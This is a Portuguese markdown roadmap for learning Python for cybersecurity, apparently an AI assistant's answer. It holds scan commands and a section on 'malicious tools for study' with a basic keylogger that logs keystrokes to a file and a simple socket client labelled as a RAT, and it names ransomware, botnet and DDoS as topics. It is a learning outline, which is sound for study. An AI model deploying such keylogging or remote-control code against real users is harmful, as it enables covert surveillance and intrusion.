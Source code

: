 # Roadmap Completo de Python para Cibersegurança

## Disclaimer
**É fundamental ressaltar que a criação e utilização de ferramentas para fins maliciosos é ilegal.** Este roadmap tem como objetivo educacional apresentar as técnicas e ferramentas utilizadas em cibersegurança para fins de defesa e testes de penetração. Utilize essas informações de forma ética e responsável.

## Fundamentos
* **Sintaxe e estrutura:** Variáveis, tipos de dados, operadores, estruturas de controle, funções, orientação a objetos.
* **Bibliotecas essenciais:**
  * **Requests:** Para requisições HTTP. Ex: `requests.get('https://api.github.com')`
  * **Beautiful Soup:** Para parsear HTML e XML. Ex: `soup = BeautifulSoup(html_doc, 'html.parser')`
  * **Regular Expressions:** Para encontrar padrões em texto. Ex: `re.findall(r'\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b', text)`
  * **Socket:** Para criar conexões de rede. Ex: `s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)`
  * **os:** Para interagir com o sistema operacional. Ex: `os.listdir('.')`
  * **PyQt:** Para criar interfaces gráficas. Ex: `app = QApplication(sys.argv)`

## Hacking com Python
* **Enumeração de portas:**
  * **nmap:** `nmap -sS 192.168.1.1`
* **Varredura de vulnerabilidades:**
  * **OpenVAS:** `openvas_cli -s 192.168.1.1`
* **Engenharia reversa:**
  * **Ghidra:** Ferramenta GUI para análise de código.
* **Ataques de força bruta:**
  * **hashlib:** `hashlib.md5(b'password').hexdigest()`



---
# **Capítulo: Construindo Ferramentas com Python para Hacking Ético**

**Disclaimer:** Este capítulo tem como objetivo educacional apresentar as técnicas e ferramentas utilizadas em ataques cibernéticos para fins de **defesa e testes de penetração**. É fundamental utilizar essas informações de forma ética e responsável, sempre respeitando as leis e regulamentos aplicáveis. **A criação e utilização de ferramentas para fins maliciosos é ilegal.**

## **Introdução**

Python, com sua sintaxe clara e diversas bibliotecas, é uma ferramenta poderosa para a criação de scripts e ferramentas de hacking ético. Neste capítulo, exploraremos como utilizar Python para construir ferramentas que simulem ataques e ajudem na identificação de vulnerabilidades em sistemas.

## **Bibliotecas Essenciais**

* **Scapy:** Uma das bibliotecas mais populares para manipulação de pacotes de rede. Permite criar, enviar e analisar pacotes personalizados.
* **Socket:** Permite a criação de conexões de rede, tanto TCP quanto UDP. Essencial para a construção de clientes e servidores.
* **Requests:** Facilita a realização de requisições HTTP, permitindo a interação com serviços web.
* **Beautiful Soup:** Ideal para parsear HTML e XML, extraindo dados de páginas web.
* **re:** A biblioteca padrão para expressões regulares, útil para encontrar padrões em texto.
* **os:** Permite interagir com o sistema operacional, como criar arquivos, diretórios e executar comandos.
* **subprocess:** Permite executar comandos do sistema operacional a partir de scripts Python.

## **Construindo Ferramentas**

### **Keylogger**
* **Objetivo:** Registrar as teclas pressionadas.
* **Bibliotecas:** `pynput` (recomendada), `keyboard`
* **Funcionalidades:** Capturar teclas, salvar em arquivo, enviar dados para um servidor.


---
## Criando Ferramentas Maliciosas (Para Fins de Estudo)
* **Keylogger:**
  * **pynput:** Capturar teclas pressionadas.

```python
  from pynput.keyboard import Listener

  def on_press(key):
      print('{0} pressed'.format(
          key))
      with open('log.txt', 'a') as f:
          f.write(str(key))

  with Listener(
          on_press=on_press) as listener:
      listener.join()
```

* **RAT:**
  * **socket:** Estabelecer conexões.
  * **paramiko:** Para SSH.
```
import socket

s = socket.socket()
host = '127.0.0.1'
port = 12345

s.connect((host, port))
while True:
    data = s.recv(1024)
    if not data:
        break
    print(data.decode())
    command = input("Enter command: ")
    s.sendall(command.encode())
s.close()
```

* **WiFi Sniffer:**
  * **scapy:** Manipular pacotes de rede.
* **Ransomware:**
  * **Crypto:** Criptografar arquivos.
* **Botnet:**
  * **socket:** Criar servidor central.
* **DDoS:**
  * **socket:** Enviar múltiplas requisições.
* **Mail Sniffer:**
  * **imaplib:** Interagir com servidores IMAP.
* **Git Trojan:**
  * **gitpython:** Manipular repositórios Git.

## Defesa contra Ataques
* **Análise de malware:**
  * **VirusTotal:** Analisar arquivos.
* **IDS:**
  * **Snort:** Monitorar tráfego de rede.
* **Análise forense:**
  * **Volatility:** Analisar memória.

## Projetos Práticos (Adicionar mais detalhes conforme necessário)
* Criar um honeypot simples.
* Desenvolver um sistema de detecção de intrusão básico.
* Analisar um malware real.
* Criar um script para automatizar tarefas de segurança.

## Recursos Adicionais
* **Cursos online:** Udemy, Coursera, Hack The Box.
* **Comunidades:** Stack Overflow, Reddit (r/cybersecurity).
* **Certificações:** CEH, OSCP, CISSP.
* **Livros:** "Python for Hackers", "The Art of Exploitation".

**Lembre-se:** Este é apenas um ponto de partida. Explore, aprenda e pratique de forma responsável.

**Observações:**
* **Detalhamento:** Adicione mais exemplos práticos e explicações para cada tópico.
* **Organização:** Crie seções mais específicas para cada tipo de ataque ou ferramenta.
* **Atualização:** Mantenha o arquivo atualizado com as últimas tendências e tecnologias.
* **Ética:** Sempre enfatize a importância da ética na cibersegurança.

**Sugestão:**
Para aprofundar seus estudos, explore os seguintes temas:
* **Web scraping:** Extrair dados de sites.
* **Fuzzing:** Testar a robustez de sistemas.
* **Social engineering:** Enganar usuários para obter informações.
* **Machine learning:** Detectar ameaças usando algoritmos de aprendizado de máquina.

**Com este arquivo .md, você terá um guia completo e organizado para seus estudos em Python para cibersegurança.**

**Gostaria de adicionar mais algum tópico específico ou aprofundar algum dos já existentes?**
